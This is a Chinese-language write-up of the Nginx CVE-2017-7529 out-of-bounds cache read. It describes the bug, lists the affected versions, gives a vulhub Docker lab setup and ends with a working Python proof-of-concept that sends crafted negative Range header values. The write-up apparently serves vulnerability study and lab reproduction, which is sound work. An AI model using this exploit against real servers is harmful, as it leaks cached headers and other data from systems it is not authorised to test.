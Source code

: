 # Nginx越界读取缓存漏洞-CVE-2017-7529

## 漏洞描述

Nginx在反向代理站点的时候，通常会将一些文件进行缓存，特别是静态文件。缓存的部分存储在文件中，每个缓存文件包括“文件头”+“HTTP返回包头”+“HTTP返回包体”。如果二次请求命中了该缓存文件，则Nginx会直接将该文件中的“HTTP返回包体”返回给用户。

如果我的请求中包含Range头，Nginx将会根据我指定的start和end位置，返回指定长度的内容。而如果我构造了两个负的位置，如(-600, -9223372036854774591)，将可能读取到负位置的数据。如果这次请求又命中了缓存文件，则可能就可以读取到缓存文件中位于“HTTP返回包体”前的“文件头”、“HTTP返回包头”等内容。

## 影响版本

> [!NOTE]
>
> Nginx version 0.5.6 - 1.13.2

## 环境搭建

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/nginx/CVE-2017-7529
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:8080 正常即可

![](Nginx越界读取缓存漏洞-CVE-2017-7529.assets/16273634422501109.jpg)

## 漏洞复现

使用目录下的POC进行验证

```
python poc.py http://xxx.xxx.xxx.xxx:8080/
```

![](Nginx越界读取缓存漏洞-CVE-2017-7529.assets/16273634424989362.jpg)

## 漏洞利用POC

```python
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) < 2:
    print("%s url" % (sys.argv[0]))
    print("eg: python %s http://your-ip:8080/" % (sys.argv[0]))
    sys.exit()

headers = {
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
}
offset = 605
url = sys.argv[1]
file_len = len(requests.get(url, headers=headers).content)
n = file_len + offset
headers['Range'] = "bytes=-%d,-%d" % (
    n, 0x8000000000000000 - n)

r = requests.get(url, headers=headers)
```

